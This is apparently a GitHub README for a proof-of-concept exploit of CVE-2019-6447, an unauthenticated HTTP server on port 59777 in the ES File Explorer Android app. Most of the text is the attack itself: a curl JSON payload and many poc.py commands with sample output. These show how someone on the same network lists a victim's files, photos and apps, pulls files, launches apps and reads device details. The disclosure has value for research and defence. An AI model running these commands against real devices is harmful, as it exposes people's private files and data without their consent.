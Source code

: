 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES File Explorer (File Manager) is a full-featured file (Images, Music, Movies, Documents, app) manager for both local and networked use! With over 500 million users worldwide, ES File Explorer (File Manager) helps manage your android phone and files efficiently and effectively and share files without data cost.

Everytime a user is launching the app, a HTTP server is started. This server is opening locally the port 59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

On this port, an attacker can send a JSON payload to the target
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

These commands allow an attacker **connected on the same local network than the victim**, to obtain a lot of juicy information (device info, app installed, ...) about the victim's phone, **remotely get a file** from the victim's phone and **remotely launch an app** on the victim's phone.

## Affected Versions
4.1.9.5.2 and below

## POC Features
With the following Proof Of Concept (POC), you can:
- List all the files in the sdcard in the victim device
- List all the pictures in the victim device
- List all the videos in the victim device
- List all the audio files in the victim device
- List all the apps installed in the victim device
- List all the system apps installed in the victim device
- List all the phone apps installed in the victim device
- List all the apk files stored in the sdcard of the victim device
- List all the apps installed in the victim device
- Get device info of the victim device
- Pull a file from the victim device
- Launch an app of your choice
- Get the icon of an app of your choice

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info
appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip, the investigation and the POC has been made with ❤️ by @fs0c131y
